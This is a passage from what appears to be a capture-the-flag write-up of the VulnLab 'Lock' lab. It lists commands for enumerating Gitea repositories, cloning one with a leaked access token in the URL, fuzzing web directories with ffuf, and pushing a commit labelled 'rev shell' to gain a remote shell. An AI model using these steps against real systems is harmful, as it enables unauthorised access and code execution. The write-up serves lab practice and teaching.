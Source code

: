 ```bash
python3 repos.py http://lock.vl:3000 
```
![all repos](../assets/img/ctf/vulnlab/lock/lock10.png)

```bash
git clone http://43ce39bb0bd6bc489284f2905f033ca467a6362f@lock.vl:3000/ellen.freeman/website.git
```
![internal repos](../assets/img/ctf/vulnlab/lock/lock11.png)

```bash
ffuf -c -u http://lock.vl/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .txt
```
![web app fuzz](../assets/img/ctf/vulnlab/lock/lock12.png)

```sh
git add .
git commit -m 'rev shell'
git push origin main
```